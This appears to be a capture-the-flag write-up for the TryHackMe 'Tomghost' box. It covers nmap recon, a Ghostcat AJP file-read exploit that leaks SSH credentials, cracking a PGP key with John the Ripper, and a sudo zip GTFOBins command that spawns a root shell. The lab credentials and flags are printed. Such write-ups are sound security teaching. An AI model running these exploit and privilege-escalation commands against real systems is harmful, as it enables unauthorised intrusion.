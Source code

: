 #CTF 


## Recon

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Aggressive OS guesses: Linux 3.10 - 3.13 (96%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), Sony Android TV (Android 5.0) (93%), Android 5.0 - 6.0.1 (Linux 3.4) (93%), Android 5.1 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I found this CVE online : # [CVE-2020-13943](https://www.cvedetails.com/cve/CVE-2020-13943/ "CVE-2020-13943 security vulnerability details")
	_If an HTTP/2 client connecting to Apache Tomcat 10.0.0-M1 to 10.0.0-M7, 9.0.0.M1 to 9.0.37 or 8.5.0 to 8.5.57 exceeded the agreed maximum number of concurrent streams for a connection (in violation of the HTTP/2 protocol), it was possible that a subsequent request made on that connection could contain HTTP headers - including HTTP/2 pseudo headers - from a previous request rather than the intended headers. This could lead to users seeing responses for unexpected resources._

After some search online I found about Ghostcat vuln .
`nmap -sV --script ajp-auth,ajp-headers,ajp-methods,ajp-request -n -p 8009 <IP>`

I also found a tool to exploit it here [Github](https://github.com/00theway/Ghostcat-CNVD-2020-10487/blob/master/ajpShooter.py)
and I ran it with `python3 ajpShooter.py http://[ip]:8080 8009 /WEB-INF/web.xml read
`

```
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>
```

I see some creds on that file `skyfuck:8730281lkjlkjdqlksalks`

## Access

I will try to access the ssh port with these creds
And I am in!
I find two files `credential.pgp  tryhackme.asc`
The first is a pgp encrypted file and the second has the pgp key
I download both files on local machine with
`scp -r skyfuck@[ip]:/home/skyfuck/credential.pgp /home/kali/THM/Tomghost`

There is a usefull tool named gpg2john that converts gpg keys to john-readble hashs.
I run the command the then feed the hash to [[John The Ripper]]
`john --wordlist=/usr/share/wordlists/rockyou.txt hash`
And I get `alexandru        (tryhackme)`

So then I import the key
`gpg --import tryhackme.asc` , for passphrase I use alexandru
and then to decrypt the other file
`gpg --decrypt credential.pgp` , again with the above passphrase

and get
```
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

I ssh with the creds above and I am in!
I get my user flag
`THM{GhostCat_1s_so_cr4sy}`

## Priv Esc

I type `sudo -l`
and get 
```
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

So I search online in gtfo bin so `/usr/bin/zip`
And I find on sudo section
````
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
````

And  I am root!
I find my root flag!
`THM{Z1P_1S_FAKE}`